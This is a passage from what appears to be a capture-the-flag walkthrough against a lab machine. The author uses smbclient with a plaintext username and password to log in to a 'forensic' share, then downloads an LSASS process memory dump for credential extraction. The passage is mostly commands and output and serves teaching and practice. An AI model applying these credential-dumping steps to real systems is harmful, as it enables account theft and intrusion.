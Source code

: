 ```json

	},
    "profiles$": {}
}
```

So we download the `lsass` process memory dump locally for further inspection.

`smbclient -U 'audit2020' --password='H4ck3d!' '//10.10.10.192/forensic'`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Nov 10 18:06:40 2024
  ..                                  D        0  Sun Nov 10 18:06:40 2024
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020 ←
  tools                               D        0  Sun Feb 23 14:39:08 2020

                5102079 blocks of size 4096. 1659951 blocks available
smb: \> cd memory_analysis\
smb: \memory_analysis\> dir
  .                                   D        0  Thu May 28 22:28:33 2020
  ..                                  D        0  Thu May 28 22:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 22:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 22:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 22:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 22:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 22:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 22:25:08 2020 ←
  mmc.zip                             A 64288607  Thu May 28 22:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 22:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 22:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 22:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 22:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 22:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 22:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 22:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 22:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 22:27:53 2020

                5102079 blocks of size 4096. 1659951 blocks available
smb: \memory_analysis\> get lsass.zip ←
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (2033.1 KiloBytes/sec) (average 2033.1 KiloBytes/sec)
```

`ls -l ./lsass.zip`:
```
-rw-rw-r-- 1 kali kali 41936098 Nov 10 23:40 ./lsass.zip
```

`file ./lsass.zip`:
```
lsass.zip: Zip archive data, at least v2.0 to extract, compression method=deflate 
```
